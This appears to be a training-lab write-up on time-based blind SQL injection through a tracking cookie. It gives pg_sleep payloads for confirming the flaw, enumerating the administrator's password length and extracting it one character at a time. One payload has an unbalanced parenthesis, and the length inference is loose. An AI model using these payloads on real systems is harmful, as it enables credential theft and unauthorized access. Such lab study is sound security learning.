

**Lab: Blind SQL injection with time delays and information retrieval**
*Vulnerable parameter - tracking cookie*
*- Goals:*
1. Exploit the username and password with Blind SQL injection time-based
2. Log in as `administrator`
   
*- Analysis:*
1. Confirm that website is vulnerable by SQL injection time-based:
> `select trackingId from trackingIdTable where trackingId='nxZQWXiHrba8lG0R' || (SELECT pg_sleep(10))--`

-> 200 Ok
2. Confirm that the users table exist in the database:
> ` '|| (SELECT CASE WHEN (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> 200 OK
3. Enumerate the length of password
> ` '|| (SELECT CASE WHEN (username='administrator' and LENGTH(password) >20 then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> 200 OK -> The length of password included 20 characters
4. Enumerate the password
> ` '|| (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> Use Intruder to calculate with mode Cluster bomb: 

*`LAB SOLVED`*
